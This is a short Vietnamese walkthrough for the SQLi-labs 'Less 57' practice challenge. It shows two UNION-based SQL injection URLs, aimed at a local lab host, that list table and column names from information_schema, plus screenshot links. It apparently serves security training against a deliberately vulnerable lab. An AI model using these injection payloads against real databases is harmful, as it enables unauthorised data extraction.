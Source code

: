 # Less 57

![](../images/sqli-labs/Less-57/01.png)

Thực hiện tương tự [Less 55](Less-55.md)

![](../images/sqli-labs/Less-57/07.png)

```
http://192.168.84.233/sqli-labs/Less-57/?id=1" union select 1,1,group_concat(table_name) from information_schema.tables where table_schema = "challenges" limit 1,1 --+
```

![](../images/sqli-labs/Less-57/10.png)

```
http://192.168.84.233/sqli-labs/Less-57/?id=1" union select 1,1,group_concat(column_name) from information_schema.columns where table_schema = "challenges" and table_name="F1B147NX5Z" limit 1,1 --+
```

![](../images/sqli-labs/Less-57/11.png)

![](../images/sqli-labs/Less-57/08.png)

![](../images/sqli-labs/Less-57/09.png)
